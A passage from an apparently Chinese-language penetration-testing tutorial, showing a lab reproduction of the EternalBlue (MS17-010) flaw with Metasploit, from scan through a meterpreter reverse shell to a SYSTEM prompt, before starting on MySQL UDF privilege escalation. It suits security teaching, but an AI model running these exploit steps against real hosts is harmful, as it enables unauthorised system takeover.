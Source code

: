 ### 7.4 漏洞复现

**7.4.1 metasploit 扫描主机是否存在永恒之蓝漏洞**

扫描结果可看出目标主机大概率可被渗透

```bash
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOST 192.168.231.150
RHOST => 192.168.231.150
msf6 auxiliary(scanner/smb/smb_ms17_010) > exploit 

[+] 192.168.231.150:445   - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.231.150:445   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

**7.4.2 metasploit 模块开始渗透**

```bash
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOTST 192.168.231.150
RHOTST => 192.168.231.150
# 由于默认已配置了payload，所以直接exploit即可
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit 
......
meterpreter > shell
Process 2728 created.
Channel 1 created.
Microsoft Windows [�汾 6.1.7601]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>

```

## 8. Mysql UDF 提权

### 8.1 认识UDF

UDF（User-Defined-Function）用户自定义函数，为了方便开发者能够自己写所需的函数功能，以达到扩充的目的，调用方式与一般自带的函数是相同的

udf 文件后缀一般为 so,dll、由C、C++编写

**Linux 系统使用so文件、Windows系统使用dll文件**

### 8.2 为什么UDF能提权
